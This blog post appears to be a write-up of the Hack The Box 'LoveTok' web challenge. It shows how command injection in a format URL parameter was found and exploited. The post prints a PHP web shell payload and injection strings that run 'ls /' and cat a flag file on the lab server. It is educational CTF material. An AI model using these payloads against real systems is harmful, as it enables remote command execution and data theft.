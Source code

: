 ```yaml
---
layout: post
title: LoveTok
date: '2024-01-18'
description: "LoveTok is one of the easy web exploitation challenges on HTB"
categories: [HTB]
---
```



> **[LoveTok](https://app.hackthebox.com/challenges/lovetok)** is an easy web exploitation challenge which makes use web shells to extract sensitive data from a web server.


## Walkthrough
The LoveTok website.
![img-description](1.jpg)


The website does not have much information besides a button at the bottom of the page. Upon clicking the button, I noticed that the URL changed.
```shell
http://94.237.62.195:37632/?format=r
```
![img-description](2.jpg)


I messed around with the r section of the URL and changed it to different system commands and the text at the bottom of the page kept on changing depending on the command used.
![img-description](3.jpg)


I then proceeded to look at the downloaded files that came with the challenge and found an intersesting code in the Router.php file. The code shows a basic routing mechanism for a PHP application, allowing developers to define routes and corresponding controller functions or methods to handle incoming requests.


A specific section of the code stood out to me.
![img-description](4.jpg)


This section handles a scenario where a segment in the route pattern is a placeholder {param}, indicating that a parameter value is expected in that segment of the URL. If the current segment in the URL is an empty string then it aborts the script execution with an HTTP status code of 404 (Not Found).


From then, I used a web shell to bypass the conditional check in the router code and exploit the command injection vulnerability to execute arbitrary commands on the server, ultimately allowing me to extract sensitive data.


I found the following web shell payload:
```shell
<?php system($_GET['cmd']);?>
```
It uses the system() function to execute commands that are being passed through ‘cmd’ HTTP request GET parameter.


I adjusted the payload to list all files and directories in the root directory of the web server.
```shell
 ${system($_GET[cmd])}&cmd=ls /
```
![img-description](5.jpg)
I found a flag file and changed the system commands on the payload to open the file.


```shell
http://94.237.62.195:37632/?format=%20${system($_GET[cmd])}&cmd=cat%20/flagPmIxD
```
And Voila! I got the flag!
![img-description](6.jpg)


![img-description](7.jpg)
